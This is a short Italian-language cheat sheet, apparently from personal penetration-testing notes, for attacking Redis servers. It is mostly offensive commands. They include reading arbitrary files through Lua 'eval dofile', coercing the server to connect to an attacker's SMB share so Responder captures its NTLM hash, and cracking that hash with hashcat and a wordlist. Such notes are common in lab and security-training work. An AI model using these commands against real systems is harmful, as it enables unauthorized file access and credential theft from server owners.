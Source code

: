 ### **CONNETTERSI A REDIS**
```bash
redis-cli -h <ip>
```
### **LEGGERE FILE**
```bash
eval "dofile('<PATH>')" 0
```
### **DUMP USER NTLM HASH**
su redis
```bash
eval "dofile('//<TUO IP>/share')" 0 [
```
sulla tua macchina
```bash
sudo responder -I tun0 -dvw
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)
```bash
hashcat -a 0 -m 5600 hash $ROCKYOU
```
